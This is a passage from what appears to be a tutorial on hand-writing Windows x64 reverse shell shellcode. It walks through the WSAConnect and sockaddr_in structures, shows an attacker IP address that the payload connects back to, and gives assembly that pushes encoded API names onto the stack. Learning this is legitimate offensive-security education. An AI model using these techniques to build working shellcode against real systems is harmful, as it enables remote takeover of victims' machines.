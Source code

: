 ```cpp
    u_long S_addr;
  } S_un;
};
```

The last member of the `sockaddr_in` structure is `sin_zero`, an array of 8 characters. As per the official documentation, this array is reserved for system use, and its content should always be set to 0. With the `sockaddr_in` and `IN_ADDR` structures explained, a reexamination of the `WSAConnect` function prototype is presented:

```cpp
int WSAAPI WSAConnect(
  [in]  SOCKET         s,
  [in]  const sockaddr *name,
  [in]  int            namelen,
  [in]  LPWSABUF       lpCallerData,
  [out] LPWSABUF       lpCalleeData,
  [in]  LPQOS          lpSQOS,
  [in]  LPQOS          lpGQOS
);
```

* `namelen`: This is the length, in bytes, of the address pointed to by the name parameter.
* `lpCallerData`: A pointer to a WSABUF structure containing optional data to be sent to the remote party as part of establishing the connection. This parameter can be NULL if no data is to be sent.
* `lpCalleeData`: A pointer to a WSABUF structure in which data received from the remote party will be stored, as part of the connection establishment. This parameter can also be NULL if no data is expected in response.
* `lpSQOS`: A pointer to a QOS structure that specifies the flow specifications for the socket, the service provider, and any routers. QOS stands for Quality of Service, which includes parameters such as service type, token rate, etc. This structure influences the quality of service provided by the network. If no special quality of service is requested, this parameter can be NULL.
* `lpGQOS`: Similar to lpSQOS, this is a pointer to a QOS structure, but it specifies the quality of service for general socket operations and for the receiving end of the connection. It is used for controlling the network traffic properties. This parameter can also be NULL if no specific quality of service is required.

Before updating the shellcode, the IP address "192.168.243.133" and port of the attacker machine, which will receive the connection, must be converted to the correct format.


<img src="{{ site.url }}{{ site.baseurl }}/images/2024-05-05_12-08.png" alt="">

First, the encoded string `WSAConnect` is obtained:

```
PS C:\Users\s4dbrd\Desktop> python .\encodeString.py WSAConnect
mov rax, 0x7463
push rax;
mov rax, 0x656e6e6f43415357
push rax;
```

Subsequently, the address of the function is retrieved through `GetProcAddress`.
